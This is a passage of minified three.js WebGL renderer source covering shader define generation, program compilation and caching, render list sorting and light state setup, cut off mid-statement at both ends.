USE_INSTANCING_MORPH":"",n.useFog&&n.fog?"#define USE_FOG":"",n.useFog&&n.fogExp2?"#define FOG_EXP2":"",n.map?"#define USE_MAP":"",n.envMap?"#define USE_ENVMAP":"",n.envMap?"#define "+h:"",n.lightMap?"#define USE_LIGHTMAP":"",n.aoMap?"#define USE_AOMAP":"",n.bumpMap?"#define USE_BUMPMAP":"",n.normalMap?"#define USE_NORMALMAP":"",n.normalMapObjectSpace?"#define USE_NORMALMAP_OBJECTSPACE":"",n.normalMapTangentSpace?"#define USE_NORMALMAP_TANGENTSPACE":"",n.displacementMap?"#define USE_DISPLACEMENTMAP":"",n.emissiveMap?"#define USE_EMISSIVEMAP":"",n.anisotropy?"#define USE_ANISOTROPY":"",n.anisotropyMap?"#define USE_ANISOTROPYMAP":"",n.clearcoatMap?"#define USE_CLEARCOATMAP":"",n.clearcoatRoughnessMap?"#define USE_CLEARCOAT_ROUGHNESSMAP":"",n.clearcoatNormalMap?"#define USE_CLEARCOAT_NORMALMAP":"",n.iridescenceMap?"#define USE_IRIDESCENCEMAP":"",n.iridescenceThicknessMap?"#define USE_IRIDESCENCE_THICKNESSMAP":"",n.specularMap?"#define USE_SPECULARMAP":"",n.specularColorMap?"#define USE_SPECULAR_COLORMAP":"",n.specularIntensityMap?"#define USE_SPECULAR_INTENSITYMAP":"",n.roughnessMap?"#define USE_ROUGHNESSMAP":"",n.metalnessMap?"#define USE_METALNESSMAP":"",n.alphaMap?"#define USE_ALPHAMAP":"",n.alphaHash?"#define USE_ALPHAHASH":"",n.transmission?"#define USE_TRANSMISSION":"",n.transmissionMap?"#define USE_TRANSMISSIONMAP":"",n.thicknessMap?"#define USE_THICKNESSMAP":"",n.sheenColorMap?"#define USE_SHEEN_COLORMAP":"",n.sheenRoughnessMap?"#define USE_SHEEN_ROUGHNESSMAP":"",n.mapUv?"#define MAP_UV "+n.mapUv:"",n.alphaMapUv?"#define ALPHAMAP_UV "+n.alphaMapUv:"",n.lightMapUv?"#define LIGHTMAP_UV "+n.lightMapUv:"",n.aoMapUv?"#define AOMAP_UV "+n.aoMapUv:"",n.emissiveMapUv?"#define EMISSIVEMAP_UV "+n.emissiveMapUv:"",n.bumpMapUv?"#define BUMPMAP_UV "+n.bumpMapUv:"",n.normalMapUv?"#define NORMALMAP_UV "+n.normalMapUv:"",n.displacementMapUv?"#define DISPLACEMENTMAP_UV "+n.displacementMapUv:"",n.metalnessMapUv?"#define METALNESSMAP_UV "+n.metalnessMapUv:"",n.roughnessMapUv?"#define ROUGHNESSMAP_UV "+n.roughnessMapUv:"",n.anisotropyMapUv?"#define ANISOTROPYMAP_UV "+n.anisotropyMapUv:"",n.clearcoatMapUv?"#define CLEARCOATMAP_UV "+n.clearcoatMapUv:"",n.clearcoatNormalMapUv?"#define CLEARCOAT_NORMALMAP_UV "+n.clearcoatNormalMapUv:"",n.clearcoatRoughnessMapUv?"#define CLEARCOAT_ROUGHNESSMAP_UV "+n.clearcoatRoughnessMapUv:"",n.iridescenceMapUv?"#define IRIDESCENCEMAP_UV "+n.iridescenceMapUv:"",n.iridescenceThicknessMapUv?"#define IRIDESCENCE_THICKNESSMAP_UV "+n.iridescenceThicknessMapUv:"",n.sheenColorMapUv?"#define SHEEN_COLORMAP_UV "+n.sheenColorMapUv:"",n.sheenRoughnessMapUv?"#define SHEEN_ROUGHNESSMAP_UV "+n.sheenRoughnessMapUv:"",n.specularMapUv?"#define SPECULARMAP_UV "+n.specularMapUv:"",n.specularColorMapUv?"#define SPECULAR_COLORMAP_UV "+n.specularColorMapUv:"",n.specularIntensityMapUv?"#define SPECULAR_INTENSITYMAP_UV "+n.specularIntensityMapUv:"",n.transmissionMapUv?"#define TRANSMISSIONMAP_UV "+n.transmissionMapUv:"",n.thicknessMapUv?"#define THICKNESSMAP_UV "+n.thicknessMapUv:"",n.vertexTangents&&!1===n.flatShading?"#define USE_TANGENT":"",n.vertexColors?"#define USE_COLOR":"",n.vertexAlphas?"#define USE_COLOR_ALPHA":"",n.vertexUv1s?"#define USE_UV1":"",n.vertexUv2s?"#define USE_UV2":"",n.vertexUv3s?"#define USE_UV3":"",n.pointsUvs?"#define USE_POINTS_UV":"",n.flatShading?"#define FLAT_SHADED":"",n.skinning?"#define USE_SKINNING":"",n.morphTargets?"#define USE_MORPHTARGETS":"",n.morphNormals&&!1===n.flatShading?"#define USE_MORPHNORMALS":"",n.morphColors?"#define USE_MORPHCOLORS":"",n.morphTargetsCount>0?"#define MORPHTARGETS_TEXTURE_STRIDE "+n.morphTextureStride:"",n.morphTargetsCount>0?"#define MORPHTARGETS_COUNT "+n.morphTargetsCount:"",n.doubleSided?"#define DOUBLE_SIDED":"",n.flipSided?"#define FLIP_SIDED":"",n.shadowMapEnabled?"#define USE_SHADOWMAP":"",n.shadowMapEnabled?"#define "+l:"",n.sizeAttenuation?"#define USE_SIZEATTENUATION":"",n.numLightProbes>0?"#define USE_LIGHT_PROBES":"",n.logarithmicDepthBuffer?"#define USE_LOGDEPTHBUF":"","uniform mat4 modelMatrix;","uniform mat4 modelViewMatrix;","uniform mat4 projectionMatrix;","uniform mat4 viewMatrix;","uniform mat3 normalMatrix;","uniform vec3 cameraPosition;","uniform bool isOrthographic;","#ifdef USE_INSTANCING","\tattribute mat4 instanceMatrix;","#endif","#ifdef USE_INSTANCING_COLOR","\tattribute vec3 instanceColor;","#endif","#ifdef USE_INSTANCING_MORPH","\tuniform sampler2D morphTexture;","#endif","attribute vec3 position;","attribute vec3 normal;","attribute vec2 uv;","#ifdef USE_UV1","\tattribute vec2 uv1;","#endif","#ifdef USE_UV2","\tattribute vec2 uv2;","#endif","#ifdef USE_UV3","\tattribute vec2 uv3;","#endif","#ifdef USE_TANGENT","\tattribute vec4 tangent;","#endif","#if defined( USE_COLOR_ALPHA )","\tattribute vec4 color;","#elif defined( USE_COLOR )","\tattribute vec3 color;","#endif","#ifdef USE_SKINNING","\tattribute vec4 skinIndex;","\tattribute vec4 skinWeight;","#endif","\n"].filter(vo).join("\n"),_=[Co(n),"#define SHADER_TYPE "+n.shaderType,"#define SHADER_NAME "+n.shaderName,f,n.useFog&&n.fog?"#define USE_FOG":"",n.useFog&&n.fogExp2?"#define FOG_EXP2":"",n.alphaToCoverage?"#define ALPHA_TO_COVERAGE":"",n.map?"#define USE_MAP":"",n.matcap?"#define USE_MATCAP":"",n.envMap?"#define USE_ENVMAP":"",n.envMap?"#define "+c:"",n.envMap?"#define "+h:"",n.envMap?"#define "+u:"",d?"#define CUBEUV_TEXEL_WIDTH "+d.texelWidth:"",d?"#define CUBEUV_TEXEL_HEIGHT "+d.texelHeight:"",d?"#define CUBEUV_MAX_MIP "+d.maxMip+".0":"",n.lightMap?"#define USE_LIGHTMAP":"",n.aoMap?"#define USE_AOMAP":"",n.bumpMap?"#define USE_BUMPMAP":"",n.normalMap?"#define USE_NORMALMAP":"",n.normalMapObjectSpace?"#define USE_NORMALMAP_OBJECTSPACE":"",n.normalMapTangentSpace?"#define USE_NORMALMAP_TANGENTSPACE":"",n.emissiveMap?"#define USE_EMISSIVEMAP":"",n.anisotropy?"#define USE_ANISOTROPY":"",n.anisotropyMap?"#define USE_ANISOTROPYMAP":"",n.clearcoat?"#define USE_CLEARCOAT":"",n.clearcoatMap?"#define USE_CLEARCOATMAP":"",n.clearcoatRoughnessMap?"#define USE_CLEARCOAT_ROUGHNESSMAP":"",n.clearcoatNormalMap?"#define USE_CLEARCOAT_NORMALMAP":"",n.dispersion?"#define USE_DISPERSION":"",n.iridescence?"#define USE_IRIDESCENCE":"",n.iridescenceMap?"#define USE_IRIDESCENCEMAP":"",n.iridescenceThicknessMap?"#define USE_IRIDESCENCE_THICKNESSMAP":"",n.specularMap?"#define USE_SPECULARMAP":"",n.specularColorMap?"#define USE_SPECULAR_COLORMAP":"",n.specularIntensityMap?"#define USE_SPECULAR_INTENSITYMAP":"",n.roughnessMap?"#define USE_ROUGHNESSMAP":"",n.metalnessMap?"#define USE_METALNESSMAP":"",n.alphaMap?"#define USE_ALPHAMAP":"",n.alphaTest?"#define USE_ALPHATEST":"",n.alphaHash?"#define USE_ALPHAHASH":"",n.sheen?"#define USE_SHEEN":"",n.sheenColorMap?"#define USE_SHEEN_COLORMAP":"",n.sheenRoughnessMap?"#define USE_SHEEN_ROUGHNESSMAP":"",n.transmission?"#define USE_TRANSMISSION":"",n.transmissionMap?"#define USE_TRANSMISSIONMAP":"",n.thicknessMap?"#define USE_THICKNESSMAP":"",n.vertexTangents&&!1===n.flatShading?"#define USE_TANGENT":"",n.vertexColors||n.instancingColor||n.batchingColor?"#define USE_COLOR":"",n.vertexAlphas?"#define USE_COLOR_ALPHA":"",n.vertexUv1s?"#define USE_UV1":"",n.vertexUv2s?"#define USE_UV2":"",n.vertexUv3s?"#define USE_UV3":"",n.pointsUvs?"#define USE_POINTS_UV":"",n.gradientMap?"#define USE_GRADIENTMAP":"",n.flatShading?"#define FLAT_SHADED":"",n.doubleSided?"#define DOUBLE_SIDED":"",n.flipSided?"#define FLIP_SIDED":"",n.shadowMapEnabled?"#define USE_SHADOWMAP":"",n.shadowMapEnabled?"#define "+l:"",n.premultipliedAlpha?"#define PREMULTIPLIED_ALPHA":"",n.numLightProbes>0?"#define USE_LIGHT_PROBES":"",n.decodeVideoTexture?"#define DECODE_VIDEO_TEXTURE":"",n.logarithmicDepthBuffer?"#define USE_LOGDEPTHBUF":"","uniform mat4 viewMatrix;","uniform vec3 cameraPosition;","uniform bool isOrthographic;",0!==n.toneMapping?"#define TONE_MAPPING":"",0!==n.toneMapping?br.tonemapping_pars_fragment:"",0!==n.toneMapping?mo("toneMapping",n.toneMapping):"",n.dithering?"#define DITHERING":"",n.opaque?"#define OPAQUE":"",br.colorspace_pars_fragment,fo("linearToOutputTexel",n.outputColorSpace),_o(),n.useDepthPacking?"#define DEPTH_PACKING "+n.depthPacking:"","\n"].filter(vo).join("\n")),o=Mo(o),o=yo(o,n),o=xo(o,n),s=Mo(s),s=yo(s,n),s=xo(s,n),o=To(o),s=To(s),!0!==n.isRawShaderMaterial&&(v="#version 300 es\n",g=[p,"#define attribute in","#define varying out","#define texture2D texture"].join("\n")+"\n"+g,_=["#define varying in",n.glslVersion===ie?"":"layout(location = 0) out highp vec4 pc_fragColor;",n.glslVersion===ie?"":"#define gl_FragColor pc_fragColor","#define gl_FragDepthEXT gl_FragDepth","#define texture2D texture","#define textureCube texture","#define texture2DProj textureProj","#define texture2DLodEXT textureLod","#define texture2DProjLodEXT textureProjLod","#define textureCubeLodEXT textureLod","#define texture2DGradEXT textureGrad","#define texture2DProjGradEXT textureProjGrad","#define textureCubeGradEXT textureGrad"].join("\n")+"\n"+_);const y=v+g+o,x=v+_+s,b=ho(r,r.VERTEX_SHADER,y),M=ho(r,r.FRAGMENT_SHADER,x);function S(e){if(t.debug.checkShaderErrors){const n=r.getProgramInfoLog(m).trim(),i=r.getShaderInfoLog(b).trim(),a=r.getShaderInfoLog(M).trim();let o=!0,s=!0;if(!1===r.getProgramParameter(m,r.LINK_STATUS))if(o=!1,"function"==typeof t.debug.onShaderError)t.debug.onShaderError(r,m,b,M);else{const t=po(r,b,"vertex"),i=po(r,M,"fragment");console.error("THREE.WebGLProgram: Shader Error "+r.getError()+" - VALIDATE_STATUS "+r.getProgramParameter(m,r.VALIDATE_STATUS)+"\n\nMaterial Name: "+e.name+"\nMaterial Type: "+e.type+"\n\nProgram Info Log: "+n+"\n"+t+"\n"+i)}else""!==n?console.warn("THREE.WebGLProgram: Program Info Log:",n):""!==i&&""!==a||(s=!1);s&&(e.diagnostics={runnable:o,programLog:n,vertexShader:{log:i,prefix:g},fragmentShader:{log:a,prefix:_}})}r.deleteShader(b),r.deleteShader(M),E=new co(r,m),w=function(t,e){const n={},i=t.getProgramParameter(e,t.ACTIVE_ATTRIBUTES);for(let r=0;r<i;r++){const i=t.getActiveAttrib(e,r),a=i.name;let o=1;i.type===t.FLOAT_MAT2&&(o=2),i.type===t.FLOAT_MAT3&&(o=3),i.type===t.FLOAT_MAT4&&(o=4),n[a]={type:i.type,location:t.getAttribLocation(e,a),locationSize:o}}return n}(r,m)}let E,w;r.attachShader(m,b),r.attachShader(m,M),void 0!==n.index0AttributeName?r.bindAttribLocation(m,0,n.index0AttributeName):!0===n.morphTargets&&r.bindAttribLocation(m,0,"position"),r.linkProgram(m),this.getUniforms=function(){return void 0===E&&S(this),E},this.getAttributes=function(){return void 0===w&&S(this),w};let T=!1===n.rendererExtensionParallelShaderCompile;return this.isReady=function(){return!1===T&&(T=r.getProgramParameter(m,37297)),T},this.destroy=function(){i.releaseStatesOfProgram(this),r.deleteProgram(m),this.program=void 0},this.type=n.shaderType,this.name=n.shaderName,this.id=uo++,this.cacheKey=e,this.usedTimes=1,this.program=m,this.vertexShader=b,this.fragmentShader=M,this}let Po=0;class Lo{constructor(){this.shaderCache=new Map,this.materialCache=new Map}update(t){const e=t.vertexShader,n=t.fragmentShader,i=this._getShaderStage(e),r=this._getShaderStage(n),a=this._getShaderCacheForMaterial(t);return!1===a.has(i)&&(a.add(i),i.usedTimes++),!1===a.has(r)&&(a.add(r),r.usedTimes++),this}remove(t){const e=this.materialCache.get(t);for(const t of e)t.usedTimes--,0===t.usedTimes&&this.shaderCache.delete(t.code);return this.materialCache.delete(t),this}getVertexShaderID(t){return this._getShaderStage(t.vertexShader).id}getFragmentShaderID(t){return this._getShaderStage(t.fragmentShader).id}dispose(){this.shaderCache.clear(),this.materialCache.clear()}_getShaderCacheForMaterial(t){const e=this.materialCache;let n=e.get(t);return void 0===n&&(n=new Set,e.set(t,n)),n}_getShaderStage(t){const e=this.shaderCache;let n=e.get(t);return void 0===n&&(n=new Do(t),e.set(t,n)),n}}class Do{constructor(t){this.id=Po++,this.code=t,this.usedTimes=0}}function Io(t,e,n,i,r,a,o){const s=new On,l=new Lo,c=new Set,h=[],u=r.logarithmicDepthBuffer,d=r.vertexTextures;let p=r.precision;const f={MeshDepthMaterial:"depth",MeshDistanceMaterial:"distanceRGBA",MeshNormalMaterial:"normal",MeshBasicMaterial:"basic",MeshLambertMaterial:"lambert",MeshPhongMaterial:"phong",MeshToonMaterial:"toon",MeshStandardMaterial:"physical",MeshPhysicalMaterial:"physical",MeshMatcapMaterial:"matcap",LineBasicMaterial:"basic",LineDashedMaterial:"dashed",PointsMaterial:"points",ShadowMaterial:"shadow",SpriteMaterial:"sprite"};function m(t){return c.add(t),0===t?"uv":`uv${t}`}return{getParameters:function(a,s,h,g,_){const v=g.fog,y=_.geometry,x=a.isMeshStandardMaterial?g.environment:null,b=(a.isMeshStandardMaterial?n:e).get(a.envMap||x),M=b&&b.mapping===O?b.image.height:null,S=f[a.type];null!==a.precision&&(p=r.getMaxPrecision(a.precision),p!==a.precision&&console.warn("THREE.WebGLProgram.getParameters:",a.precision,"not supported, using",p,"instead."));const E=y.morphAttributes.position||y.morphAttributes.normal||y.morphAttributes.color,w=void 0!==E?E.length:0;let T,A,C,R,P=0;if(void 0!==y.morphAttributes.position&&(P=1),void 0!==y.morphAttributes.normal&&(P=2),void 0!==y.morphAttributes.color&&(P=3),S){const t=Sr[S];T=t.vertexShader,A=t.fragmentShader}else T=a.vertexShader,A=a.fragmentShader,l.update(a),C=l.getVertexShaderID(a),R=l.getFragmentShaderID(a);const L=t.getRenderTarget(),D=!0===_.isInstancedMesh,I=!0===_.isBatchedMesh,U=!!a.map,N=!!a.matcap,F=!!b,k=!!a.aoMap,z=!!a.lightMap,B=!!a.bumpMap,H=!!a.normalMap,V=!!a.displacementMap,G=!!a.emissiveMap,j=!!a.metalnessMap,W=!!a.roughnessMap,X=a.anisotropy>0,q=a.clearcoat>0,Y=a.dispersion>0,K=a.iridescence>0,Z=a.sheen>0,$=a.transmission>0,J=X&&!!a.anisotropyMap,Q=q&&!!a.clearcoatMap,tt=q&&!!a.clearcoatNormalMap,et=q&&!!a.clearcoatRoughnessMap,nt=K&&!!a.iridescenceMap,it=K&&!!a.iridescenceThicknessMap,rt=Z&&!!a.sheenColorMap,at=Z&&!!a.sheenRoughnessMap,ot=!!a.specularMap,st=!!a.specularColorMap,lt=!!a.specularIntensityMap,ct=$&&!!a.transmissionMap,ht=$&&!!a.thicknessMap,ut=!!a.gradientMap,dt=!!a.alphaMap,pt=a.alphaTest>0,ft=!!a.alphaHash,mt=!!a.extensions;let gt=0;a.toneMapped&&(null!==L&&!0!==L.isXRRenderTarget||(gt=t.toneMapping));const _t={shaderID:S,shaderType:a.type,shaderName:a.name,vertexShader:T,fragmentShader:A,defines:a.defines,customVertexShaderID:C,customFragmentShaderID:R,isRawShaderMaterial:!0===a.isRawShaderMaterial,glslVersion:a.glslVersion,precision:p,batching:I,batchingColor:I&&null!==_._colorsTexture,instancing:D,instancingColor:D&&null!==_.instanceColor,instancingMorph:D&&null!==_.morphTexture,supportsVertexTextures:d,outputColorSpace:null===L?t.outputColorSpace:!0===L.isXRRenderTarget?L.texture.colorSpace:Ht,alphaToCoverage:!!a.alphaToCoverage,map:U,matcap:N,envMap:F,envMapMode:F&&b.mapping,envMapCubeUVHeight:M,aoMap:k,lightMap:z,bumpMap:B,normalMap:H,displacementMap:d&&V,emissiveMap:G,normalMapObjectSpace:H&&1===a.normalMapType,normalMapTangentSpace:H&&0===a.normalMapType,metalnessMap:j,roughnessMap:W,anisotropy:X,anisotropyMap:J,clearcoat:q,clearcoatMap:Q,clearcoatNormalMap:tt,clearcoatRoughnessMap:et,dispersion:Y,iridescence:K,iridescenceMap:nt,iridescenceThicknessMap:it,sheen:Z,sheenColorMap:rt,sheenRoughnessMap:at,specularMap:ot,specularColorMap:st,specularIntensityMap:lt,transmission:$,transmissionMap:ct,thicknessMap:ht,gradientMap:ut,opaque:!1===a.transparent&&1===a.blending&&!1===a.alphaToCoverage,alphaMap:dt,alphaTest:pt,alphaHash:ft,combine:a.combine,mapUv:U&&m(a.map.channel),aoMapUv:k&&m(a.aoMap.channel),lightMapUv:z&&m(a.lightMap.channel),bumpMapUv:B&&m(a.bumpMap.channel),normalMapUv:H&&m(a.normalMap.channel),displacementMapUv:V&&m(a.displacementMap.channel),emissiveMapUv:G&&m(a.emissiveMap.channel),metalnessMapUv:j&&m(a.metalnessMap.channel),roughnessMapUv:W&&m(a.roughnessMap.channel),anisotropyMapUv:J&&m(a.anisotropyMap.channel),clearcoatMapUv:Q&&m(a.clearcoatMap.channel),clearcoatNormalMapUv:tt&&m(a.clearcoatNormalMap.channel),clearcoatRoughnessMapUv:et&&m(a.clearcoatRoughnessMap.channel),iridescenceMapUv:nt&&m(a.iridescenceMap.channel),iridescenceThicknessMapUv:it&&m(a.iridescenceThicknessMap.channel),sheenColorMapUv:rt&&m(a.sheenColorMap.channel),sheenRoughnessMapUv:at&&m(a.sheenRoughnessMap.channel),specularMapUv:ot&&m(a.specularMap.channel),specularColorMapUv:st&&m(a.specularColorMap.channel),specularIntensityMapUv:lt&&m(a.specularIntensityMap.channel),transmissionMapUv:ct&&m(a.transmissionMap.channel),thicknessMapUv:ht&&m(a.thicknessMap.channel),alphaMapUv:dt&&m(a.alphaMap.channel),vertexTangents:!!y.attributes.tangent&&(H||X),vertexColors:a.vertexColors,vertexAlphas:!0===a.vertexColors&&!!y.attributes.color&&4===y.attributes.color.itemSize,pointsUvs:!0===_.isPoints&&!!y.attributes.uv&&(U||dt),fog:!!v,useFog:!0===a.fog,fogExp2:!!v&&v.isFogExp2,flatShading:!0===a.flatShading,sizeAttenuation:!0===a.sizeAttenuation,logarithmicDepthBuffer:u,skinning:!0===_.isSkinnedMesh,morphTargets:void 0!==y.morphAttributes.position,morphNormals:void 0!==y.morphAttributes.normal,morphColors:void 0!==y.morphAttributes.color,morphTargetsCount:w,morphTextureStride:P,numDirLights:s.directional.length,numPointLights:s.point.length,numSpotLights:s.spot.length,numSpotLightMaps:s.spotLightMap.length,numRectAreaLights:s.rectArea.length,numHemiLights:s.hemi.length,numDirLightShadows:s.directionalShadowMap.length,numPointLightShadows:s.pointShadowMap.length,numSpotLightShadows:s.spotShadowMap.length,numSpotLightShadowsWithMaps:s.numSpotLightShadowsWithMaps,numLightProbes:s.numLightProbes,numClippingPlanes:o.numPlanes,numClipIntersection:o.numIntersection,dithering:a.dithering,shadowMapEnabled:t.shadowMap.enabled&&h.length>0,shadowMapType:t.shadowMap.type,toneMapping:gt,decodeVideoTexture:U&&!0===a.map.isVideoTexture&&Pe.getTransfer(a.map.colorSpace)===Wt,premultipliedAlpha:a.premultipliedAlpha,doubleSided:2===a.side,flipSided:1===a.side,useDepthPacking:a.depthPacking>=0,depthPacking:a.depthPacking||0,index0AttributeName:a.index0AttributeName,extensionClipCullDistance:mt&&!0===a.extensions.clipCullDistance&&i.has("WEBGL_clip_cull_distance"),extensionMultiDraw:(mt&&!0===a.extensions.multiDraw||I)&&i.has("WEBGL_multi_draw"),rendererExtensionParallelShaderCompile:i.has("KHR_parallel_shader_compile"),customProgramCacheKey:a.customProgramCacheKey()};return _t.vertexUv1s=c.has(1),_t.vertexUv2s=c.has(2),_t.vertexUv3s=c.has(3),c.clear(),_t},getProgramCacheKey:function(e){const n=[];if(e.shaderID?n.push(e.shaderID):(n.push(e.customVertexShaderID),n.push(e.customFragmentShaderID)),void 0!==e.defines)for(const t in e.defines)n.push(t),n.push(e.defines[t]);return!1===e.isRawShaderMaterial&&(!function(t,e){t.push(e.precision),t.push(e.outputColorSpace),t.push(e.envMapMode),t.push(e.envMapCubeUVHeight),t.push(e.mapUv),t.push(e.alphaMapUv),t.push(e.lightMapUv),t.push(e.aoMapUv),t.push(e.bumpMapUv),t.push(e.normalMapUv),t.push(e.displacementMapUv),t.push(e.emissiveMapUv),t.push(e.metalnessMapUv),t.push(e.roughnessMapUv),t.push(e.anisotropyMapUv),t.push(e.clearcoatMapUv),t.push(e.clearcoatNormalMapUv),t.push(e.clearcoatRoughnessMapUv),t.push(e.iridescenceMapUv),t.push(e.iridescenceThicknessMapUv),t.push(e.sheenColorMapUv),t.push(e.sheenRoughnessMapUv),t.push(e.specularMapUv),t.push(e.specularColorMapUv),t.push(e.specularIntensityMapUv),t.push(e.transmissionMapUv),t.push(e.thicknessMapUv),t.push(e.combine),t.push(e.fogExp2),t.push(e.sizeAttenuation),t.push(e.morphTargetsCount),t.push(e.morphAttributeCount),t.push(e.numDirLights),t.push(e.numPointLights),t.push(e.numSpotLights),t.push(e.numSpotLightMaps),t.push(e.numHemiLights),t.push(e.numRectAreaLights),t.push(e.numDirLightShadows),t.push(e.numPointLightShadows),t.push(e.numSpotLightShadows),t.push(e.numSpotLightShadowsWithMaps),t.push(e.numLightProbes),t.push(e.shadowMapType),t.push(e.toneMapping),t.push(e.numClippingPlanes),t.push(e.numClipIntersection),t.push(e.depthPacking)}(n,e),function(t,e){s.disableAll(),e.supportsVertexTextures&&s.enable(0);e.instancing&&s.enable(1);e.instancingColor&&s.enable(2);e.instancingMorph&&s.enable(3);e.matcap&&s.enable(4);e.envMap&&s.enable(5);e.normalMapObjectSpace&&s.enable(6);e.normalMapTangentSpace&&s.enable(7);e.clearcoat&&s.enable(8);e.iridescence&&s.enable(9);e.alphaTest&&s.enable(10);e.vertexColors&&s.enable(11);e.vertexAlphas&&s.enable(12);e.vertexUv1s&&s.enable(13);e.vertexUv2s&&s.enable(14);e.vertexUv3s&&s.enable(15);e.vertexTangents&&s.enable(16);e.anisotropy&&s.enable(17);e.alphaHash&&s.enable(18);e.batching&&s.enable(19);e.dispersion&&s.enable(20);e.batchingColor&&s.enable(21);t.push(s.mask),s.disableAll(),e.fog&&s.enable(0);e.useFog&&s.enable(1);e.flatShading&&s.enable(2);e.logarithmicDepthBuffer&&s.enable(3);e.skinning&&s.enable(4);e.morphTargets&&s.enable(5);e.morphNormals&&s.enable(6);e.morphColors&&s.enable(7);e.premultipliedAlpha&&s.enable(8);e.shadowMapEnabled&&s.enable(9);e.doubleSided&&s.enable(10);e.flipSided&&s.enable(11);e.useDepthPacking&&s.enable(12);e.dithering&&s.enable(13);e.transmission&&s.enable(14);e.sheen&&s.enable(15);e.opaque&&s.enable(16);e.pointsUvs&&s.enable(17);e.decodeVideoTexture&&s.enable(18);e.alphaToCoverage&&s.enable(19);t.push(s.mask)}(n,e),n.push(t.outputColorSpace)),n.push(e.customProgramCacheKey),n.join()},getUniforms:function(t){const e=f[t.type];let n;if(e){const t=Sr[e];n=tr.clone(t.uniforms)}else n=t.uniforms;return n},acquireProgram:function(e,n){let i;for(let t=0,e=h.length;t<e;t++){const e=h[t];if(e.cacheKey===n){i=e,++i.usedTimes;break}}return void 0===i&&(i=new Ro(t,n,e,a),h.push(i)),i},releaseProgram:function(t){if(0==--t.usedTimes){const e=h.indexOf(t);h[e]=h[h.length-1],h.pop(),t.destroy()}},releaseShaderCache:function(t){l.remove(t)},programs:h,dispose:function(){l.dispose()}}}function Oo(){let t=new WeakMap;return{has:function(e){return t.has(e)},get:function(e){let n=t.get(e);return void 0===n&&(n={},t.set(e,n)),n},remove:function(e){t.delete(e)},update:function(e,n,i){t.get(e)[n]=i},dispose:function(){t=new WeakMap}}}function Uo(t,e){return t.groupOrder!==e.groupOrder?t.groupOrder-e.groupOrder:t.renderOrder!==e.renderOrder?t.renderOrder-e.renderOrder:t.material.id!==e.material.id?t.material.id-e.material.id:t.z!==e.z?t.z-e.z:t.id-e.id}function No(t,e){return t.groupOrder!==e.groupOrder?t.groupOrder-e.groupOrder:t.renderOrder!==e.renderOrder?t.renderOrder-e.renderOrder:t.z!==e.z?e.z-t.z:t.id-e.id}function Fo(){const t=[];let e=0;const n=[],i=[],r=[];function a(n,i,r,a,o,s){let l=t[e];return void 0===l?(l={id:n.id,object:n,geometry:i,material:r,groupOrder:a,renderOrder:n.renderOrder,z:o,group:s},t[e]=l):(l.id=n.id,l.object=n,l.geometry=i,l.material=r,l.groupOrder=a,l.renderOrder=n.renderOrder,l.z=o,l.group=s),e++,l}return{opaque:n,transmissive:i,transparent:r,init:function(){e=0,n.length=0,i.length=0,r.length=0},push:function(t,e,o,s,l,c){const h=a(t,e,o,s,l,c);o.transmission>0?i.push(h):!0===o.transparent?r.push(h):n.push(h)},unshift:function(t,e,o,s,l,c){const h=a(t,e,o,s,l,c);o.transmission>0?i.unshift(h):!0===o.transparent?r.unshift(h):n.unshift(h)},finish:function(){for(let n=e,i=t.length;n<i;n++){const e=t[n];if(null===e.id)break;e.id=null,e.object=null,e.geometry=null,e.material=null,e.group=null}},sort:function(t,e){n.length>1&&n.sort(t||Uo),i.length>1&&i.sort(e||No),r.length>1&&r.sort(e||No)}}}function ko(){let t=new WeakMap;return{get:function(e,n){const i=t.get(e);let r;return void 0===i?(r=new Fo,t.set(e,[r])):n>=i.length?(r=new Fo,i.push(r)):r=i[n],r},dispose:function(){t=new WeakMap}}}function zo(){const t={};return{get:function(e){if(void 0!==t[e.id])return t[e.id];let n;switch(e.type){case"DirectionalLight":n={direction:new Xe,color:new di};break;case"SpotLight":n={position:new Xe,direction:new Xe,color:new di,distance:0,coneCos:0,penumbraCos:0,decay:0};break;case"PointLight":n={position:new Xe,color:new di,distance:0,decay:0};break;case"HemisphereLight":n={direction:new Xe,skyColor:new di,groundColor:new di};break;case"RectAreaLight":n={color:new di,position:new Xe,halfWidth:new Xe,halfHeight:new Xe}}return t[e.id]=n,n}}}let Bo=0;function Ho(t,e){return(e.castShadow?2:0)-(t.castShadow?2:0)+(e.map?1:0)-(t.map?1:0)}function Vo(t){const e=new zo,n=function(){const t={};return{get:function(e){if(void 0!==t[e.id])return t[e.id];let n;switch(e.type){case"DirectionalLight":case"SpotLight":n={shadowIntensity:1,shadowBias:0,shadowNormalBias:0,shadowRadius:1,shadowMapSize:new ve};break;case"PointLight":n={shadowIntensity:1,shadowBias:0,shadowNormalBias:0,shadowRadius:1,shadowMapSize:new ve,shadowCameraNear:1,shadowCameraFar:1e3}}return t[e.id]=n,n}}}(),i={version:0,hash:{directionalLength:-1,pointLength:-1,spotLength:-1,rectAreaLength:-1,hemiLength:-1,numDirectionalShadows:-1,numPointShadows:-1,numSpotShadows:-1,numSpotMaps:-1,numLightProbes:-1},ambient:[0,0,0],probe:[],directional:[],directionalShadow:[],directionalShadowMap:[],directionalShadowMatrix:[],spot:[],spotLightMap:[],spotShadow:[],spotShadowMap:[],spotLightMatrix:[],rectArea:[],rectAreaLTC1:null,rectAreaLTC2:null,point:[],pointShadow:[],pointShadowMap:[],pointShadowMatrix:[],hemi:[],numSpotLightShadowsWithMaps:0,numLightProbes:0};for(let t=0;t<9;t++)i.probe.push(new Xe);const r=new Xe,a=new Sn,o=new Sn;return{setup:function(r){let a=0,o=0,s=0;for(let t=0;t<9;t++)i.probe[t].set(0,0,0);let l=0,c=0,h=0,u=0,d=0,p=0,f=0,m=0,g=0,_=0,v=0;r.sort(Ho);for(let t=0,y=r.length;t<y;t++){const y=r[t],x=y.color,b=y.intensity,M=y.distance,S=y.shadow&&y.shadow.map?y.shadow.map.texture:null;if(y.isAmbientLight)a+=x.r*b,o+=x.g*b,s+=x.b*b;else if(y.isLightProbe){for(let t=0;t<9;t++)i.probe[t].addScaledVector(y.sh.coefficients[t],b);v++}else if(y.isDirectionalLight){const t=e.get(y);if(t.color.copy(y.color).multiplyScalar(y.intensity),y.castShadow){const t=y.shadow,e=n.get(y);e.shadowIntensity=t.intensity,e.shadowBias=t.bias,e.shadowNormalBias=t.normalBias,e.shadowRadius=t.radius,e.shadowMapSize=t.mapSize,i.directionalShadow[l]=e,i.directionalShadowMap[l]=S,i.directionalShadowMatrix[l]=y.shadow.matrix,p++}i.directional[l]=t,l++}else if(y.isSpotLight){const 